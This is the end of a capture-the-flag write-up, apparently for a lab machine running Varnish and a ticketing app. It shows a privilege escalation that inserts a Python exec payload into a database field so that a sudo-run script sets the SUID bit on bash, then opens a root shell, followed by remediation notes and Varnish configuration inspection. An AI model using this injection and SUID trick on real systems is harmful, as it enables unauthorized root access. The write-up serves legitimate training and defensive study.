 ```shell
<<COMMENT
+--------+------+------+-----+---------+-------+
| Field  | Type | Null | Key | Default | Extra |
+--------+------+------+-----+---------+-------+
| user   | text | YES  |     | NULL    |       |
| issue  | text | YES  |     | NULL    |       |
| link   | text | YES  |     | NULL    |       |
| reason | text | YES  |     | NULL    |       |
+--------+------+------+-----+---------+-------+
COMMENT

insert into escalate values ("diego","failure","localhost",'inject=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');
exit

# back on normal terminal
sudo /opt/security/ml_security.py
bash -p
id
cat /root/root.txt     # capture the root flag
```

#### Remediation
**Fixing the Foothold Vector**  
On an employee level, the user Diego should never have shared his credentials via that medium. There are several tools for sharing sensitive credentials e.g keybase. Some of these tools destroy the credentials after the first read. The Tickets(escalated) tab was disabled so that only admins can access it. Notice that if you logged in with the admin credentials looted from the bot.py it shows 'Logged In As Robert' navigating to the `/admin_tickets` then shows 'Logged In As Admin' and the Tickets(Escalated) tab remained disabled. There are quite some flaws with this application. However, focusing on the infrastructure end there is one fundamental mistake the administrator made in the varnish configuration i.e allowing the session cookie to be returned on the cached content.
```shell
# show running services
systemctl list-units --no-pager --type=service --state=running  # note: varnish.service 

# view service status and configuration
systemctl status varnish.service
cat /lib/systemd/system/varnish.service
cd /etc/varnish/                            # varnish configuration folder
ls -la
#--snip--#
-rw-r--r--   1 root root  354 Nov  7 11:15 default.vcl
-rw-------   1 root root   37 Jun 24  2022 secret
```

[/lib/systemd/system/varnish.service](#varnish%20service%20configuration)
```text
[Unit]
Description=Varnish HTTP accelerator
Documentation=https://www.varnish-cache.org/docs/6.1/ man:varnishd

[Service]
Type=simple
LimitNOFILE=131072
LimitMEMLOCK=82000
ExecStart=/usr/sbin/varnishd -j unix,user=vcache -F -a :80 -T localhost:6082 -f /etc/varnish/default.vcl -S /etc/varnish/secret -s malloc,256m
ExecReload=/usr/share/varnish/varnishreload
ProtectSystem=full
ProtectHome=true
PrivateTmp=true
PrivateDevices=true

```